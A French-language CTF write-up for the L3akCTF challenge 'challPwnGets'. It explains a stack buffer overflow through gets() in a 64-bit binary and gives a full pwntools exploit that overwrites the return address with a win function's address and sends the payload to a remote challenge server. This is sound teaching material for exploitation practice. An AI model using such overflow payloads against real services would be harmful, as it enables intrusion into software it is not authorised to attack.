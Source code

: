 # 🚩 Writeup des Challenges CTF L3ak 🚩

Date: 17 juillet 2025



## 📝 Introduction

Dans cette note, on va explorer les challenges CTF du dossier L3akCTF. J'ai analysé les exploits existants et je vais t'expliquer comment ils fonctionnent de manière simple. C'est super intéressant de comprendre ces techniques !

---

## 💣 Challenge 1: challPwnGets - Buffer Overflow Attack

![Buffer Overflow](https://i.imgur.com/JqUfzsH.png)

### 🔍 Description du challenge
Ce challenge est un programme qui utilise la fonction `gets()` en C, qui est connue pour être dangereuse car elle ne vérifie pas les limites de la mémoire.

### 🛠️ Notre objectif
On doit exploiter un "buffer overflow" pour rediriger l'exécution du programme vers une fonction spéciale appelée `win` qui nous donnera le flag.

### 📊 Analyse technique
- Le programme est un **ELF 64-bit**
- Il n'est **pas strippé** (les symboles sont présents)
- Il y a une fonction `win` à l'adresse **0x401262**
- On a besoin de **264 bytes** de padding pour atteindre l'adresse de retour

### 💻 Code d'exploitation
```python
from pwn import *

# Configuration
context.arch = 'amd64'
context.log_level = 'debug'

# Construction du payload
offset = 264
padding = b'A' * offset  # On remplit avec plein de 'A'
win = p64(0x401262)      # L'adresse de la fonction win
payload = padding + win  # Notre payload complet

# Connexion au serveur
conn = remote('34.45.81.67', 16002)

# Attendre le prompt
conn.recvuntil(b'bytes): ')

# Envoyer le payload
conn.sendline(payload)

# Passer en mode interactif pour voir le flag
conn.interactive()
```

### 🧠 Explications simples
1. On envoie 264 caractères 'A' pour remplir le buffer
2. Ensuite on ajoute l'adresse de la fonction `win`
3. Quand la fonction actuelle se termine, au lieu de retourner normalement, le programme va aller exécuter la fonction `win`
4. La fonction `win` nous donne le flag !

---

